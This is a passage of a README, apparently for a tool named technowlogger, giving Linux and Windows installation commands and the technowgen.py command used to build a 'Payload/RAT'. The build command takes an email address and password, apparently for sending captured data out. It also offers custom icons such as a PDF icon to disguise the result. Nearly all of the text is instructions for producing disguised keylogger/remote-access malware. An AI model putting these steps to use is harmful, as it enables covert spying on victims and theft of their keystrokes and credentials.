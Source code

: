 ## How To Use in Linux
```bash
# Navigate to the /opt directory (optional)
$ cd /opt/

# Clone this repository
$ git clone https://github.com/PushpenderIndia/technowlogger.git

# Navigate to technowlogger folder
$ cd technowlogger

# Installing dependencies
$ bash installer_linux.sh

*** Note When The Python Installer DialogBox Appear while executing installer_linux.sh ***
    * Click on custom install 
    * Select Path to : C:/Python37-32
    ### So that the python is installed in this path (Inside Wine) : ~/.wine/drive_c/Python37-32

# If you are getting any errors while executing installer_linux.sh, try to install using installer_linux.py
$ python3 installer_linux.py

$ chmod +x technowgen.py
$ python3 technowgen.py --help

# Making Payload/RAT
$ python3 technowgen.py -e youremail@gmail.com -p YourEmailPass -l -o output_file_name --icon icon_path

Note: You can also use our custom icons from the icon folder, just use them like this  --icon icon/pdf.ico
```

## How To Use in Windows
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/PushpenderIndia/technowlogger.git

# Go into the repository
$ cd technowlogger

# Installing dependencies
$ python -m pip install -r requirements.txt

# Open technowgen.py in Text editor and Configure Line 16 WINDOWS_PYTHON_PYINSTALLER_PATH = "C:/Python37-32/Scripts/pyinstaller.exe" 

# Getting Help Menu
$ python technowgen.py --help

# Making Payload/RAT
$ python technowgen.py -e youremail@gmail.com -p YourEmailPass -w -o output_file_name --icon icon_path

Note: You can also use our custom icons from the icon folder, just use them like this  --icon icon/pdf.ico
```
